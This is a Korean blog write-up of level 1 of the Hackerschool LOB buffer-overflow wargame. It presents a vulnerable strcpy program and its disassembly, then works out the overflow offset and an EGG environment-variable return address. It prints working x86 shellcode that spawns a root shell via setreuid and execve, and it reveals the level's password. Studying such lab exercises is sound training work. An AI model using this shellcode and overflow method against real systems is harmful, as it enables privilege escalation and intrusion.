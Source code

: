 ```yaml
---
date: '2022-10-11'
before : '2022-10-10'
after : '2022-10-12'
title: 'FTZ LOB LEVEL 1'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


이거이거 드디어 본방이라고 할 수 있는 FTZ LOB의 시작이다! 


사실 이것 제외하고도 본격적인 CTF 실습을 위해 Hack The Box를 병행하고 있지만, 이건 저작권 관련해서 자세하게 공략글을 쓸 수는 없다. 그래도 공부하는 기법들(대부분 웹 해킹)에 대해서는 꾸준히 업로드 해보려고 한다.


### 1. Level 1 : Gate -> Gremlin

LOB부터는 딱히 힌트는 제공되지 않는다. 그래도 소스코드야 볼 수 있으니 이미 FTZ에서 익숙해진 우리라면 충분히 해결할 수 있을 것이다.


그런 의미에서 소스코드를 살펴보면, 딱히 어렵지 않다!

```
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

첫 문제라 그런가, 딱히 FTZ과의 차이를 모르겠다. 아주 간단하게 오버플로우를 할 수 있는 구조이다.

```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048459 <main+41>:    add    %eax,4
0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax]
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256]
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   0x80484ec
```
ebp-256시점에 배열이 다 채워지고 딱히 더미 데이터는 없는 것으로 보인다. 따라서 SFP 4바이트만큼을 더해주고 EGG를 등록한 후 EGG의 주소를 확인하여 입력해주면 된다. 


혹시 EGG가 뭔지 모른다면, 내 블로그의 다음 글을 확인해보자!


EGG의 주소: 0xbffffed4 





따라서 쉘 코드:
```
256 + sfp4 + ret4 => NOP * 260 + ret4(shellcode)
\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
비밀번호 : hello bof world

---
## Source

- 해커스쿨 FTZ
- Me!